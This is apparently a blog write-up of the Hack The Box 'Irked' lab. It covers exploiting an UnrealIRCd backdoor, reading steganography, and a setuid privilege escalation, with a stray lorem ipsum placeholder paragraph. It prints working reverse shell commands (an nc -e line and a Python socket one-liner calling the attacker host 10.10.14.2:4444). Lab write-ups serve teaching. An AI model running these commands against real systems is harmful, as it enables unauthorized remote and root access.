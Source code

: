 ```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, linux, IRC, Metasploit, msfconsole, steganography, setuid, find]
header:
    teaser: "/assets/images/htb/irked/irked.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![irked_info.png](/assets/images/htb/irked/irked_info.png)

*Note: I completed this challenge on December 16th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117
```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg.png](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If neccessary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version.png](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit.png](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade.png](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info.png](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt.png](/assets/images/htb/irked/user_txt.png)

## Root
With the password for `djmardov`, the target system can be accessed over SSH as the `djmardov` user. This provides for a cleaner experience as compared to the upgraded shell used up until this point.

To begin searching for misconfigurations that could lead to the elevation of priveleges, a search of the file system using `find` can be performed with the purpose of locating files owned by the `root` user that have the `setuid` bit set.

```
djmardov@irked:~$ find / -user root -perm -u=s 2> /dev/null
```

The `setuid` and `setgid` flags are Unix access rights flags that allow users to run programs with the permissions of the file's owner or group respectively. The `setuid` and `setgid` bits can be set by changing a file's mode with `chmod`. An octal file mode beginning with `2` (i.e. `chmod 4755 file.sh`) will set a file's `setuid` flag, and an octal file mode beginning with `4` (i.e. `chmod 2755 file.sh`) will set a file's `setgid` flag.

 Sometimes, a program owned by the `root` user that has the `setuid` bit set can be used to elevate privleges to `root`, since whenever the program is run it is run with `root` level permissions.  While it is common for certain programs owned by the `root` user to have the `setuid` flag set, it is important to keep an eye out for anything out of the ordinary.

The result of the aformentioned `find` command are shown in the image below.

![find_results.png](/assets/images/htb/irked/find_results.png)

Most of this looks normal, however the `/usr/bin/viewuser` program is not a standard `setuid` Linux binary. 

Running the `viewuser` binary displays some interesting output.

![viewuser_test.png](/assets/images/htb/irked/viewuser_test.png)

First of all, it appears that this is a custom binary that is still being developed. Secondly, it appears that the program attempts to interact with the `/tmp/listusers` file (which as suggested by the output does not exist). 

Knowing that `viewuser` is run with `root` permission and that it interacts with a nonexistent `listusers` file in the `/tmp` directory suggests a disasterous outcome, as the `/tmp` directory is world writable. This is to say that any user on the system can write to the `/tmp` directory, and therefore any user can create a `listusers` file.

To test whether the `viewuser` binary will execute code from within the `/tmp/listusers` file, a simple `ping` test can be performed. A `listusers` executable file can be written to the `/tmp` directory.

```
djmardov@irked:~$ echo "ping -c 5 10.10.14.2" > /tmp/listusers && chmod 755 /tmp/listusers
```

Next, the `tcpdump` tool can be run on the attacking system to confirm whether the target system is executing the `ping` command in the `/tmp/listusers` file.

```
root@kali:~/workspace/hackthebox/Irked# tcpdump -nni any icmp
```

The `viewuser` binary should be run again to test the `ping` command. The output on the attacking system from the `tcpdump` command confirms that the `viewuser` binary on the target system is executing shell commands in the `/tmp/listusers` file. At this point, the contents of the `/tmp/listusers` file can be replaced with a reverse shell. The Python reverse shell used for this is shown below.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

After setting up a listener on the attacking system, the `viewuser` binary should be run once again, resulting in a reverse shell as the `root` user of the target system.

![root_txt.png](/assets/images/htb/irked/root_txt.png)

